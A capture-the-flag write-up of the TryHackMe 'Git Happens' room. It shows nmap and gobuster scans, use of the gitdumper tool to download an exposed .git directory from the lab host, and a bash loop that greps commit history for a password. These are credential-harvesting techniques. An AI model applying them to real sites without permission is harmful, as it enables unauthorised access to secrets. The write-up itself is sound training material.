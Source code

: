 ```yaml
---
title: TryHackMe - Git Happens
description: My writeup on Git Happens box.
categories:
 - tryhackme
tags: tryhackme git gitdumper bash
---
```


![](https://i.imgur.com/pqrO7lX.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Git Happens**  |
| Difficulty :  | **Easy/Medium**             |   
| Play :    | [Git Happens](https://tryhackme.com/room/githappens){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello all, i got bored of vulnhub and i'll focus on tryhackme only. Let's start with this awesome challenge! It's all about git enumeration to find a password, let's start!

## Enumeration/Reconnaissance

Now as always let’s start with a nmap scan.

```
$ ip=10.10.18.139
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 15:51 EET
Warning: 10.10.18.139 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.18.139 (10.10.18.139)
Host is up (0.53s latency).
Not shown: 38165 filtered ports, 27369 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 62.20 seconds

$ nmap -p 80 -sC -sV -oN nmap/githappens.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 15:53 EET
Nmap scan report for 10.10.18.139 (10.10.18.139)
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.18.139:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
```

Only 1 service that's good, once we visit it we can see a login page:

![](https://i.imgur.com/PHXrxxW.png)

Tried some basic stuff like `admin:admin` etc but nothing seems to work, seems like a static page. Let's run a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w $common -x php,txt,html -o scans/gobuster.txt
/.git/HEAD (Status: 200)
```

We have a `/.git` directory! That's great, i found an awesome [gitdumper tool](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh){:target="_blank"} to download .git repository from the webserver.

```
$ wget -q https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
$ bash gitdumper.sh http://$ip/.git/ scans/results
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating scans/results/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
...data...
```

## Getting The Flag

Perfect, now this reminds me of the DevOops box from hackthebox. We will use 2 commands:

```
git log = history of everything that happen to a repository.
git show = view details of the commit.
```

Running `git log` we can see lot of commits.

![](https://i.imgur.com/LI94paJ.png)

We will check every commit with the `git show` like this:

`$ git show 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d`

![](https://i.imgur.com/aAPkwpa.png)

This will take lot of time, so i coded a bash script to do this job! :D

```bash
for commits in $(git log | grep commit | cut -d ' ' -f2 | head -9)
do
	git show $commits | grep password
done
```

We have the flag (Note: i'll hide the flag because i want to submit the writeup to tryhackme platform):

```
$ bash flag.sh
...data...
+          password === "TRY_TO_GET_IT_ALONE"
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
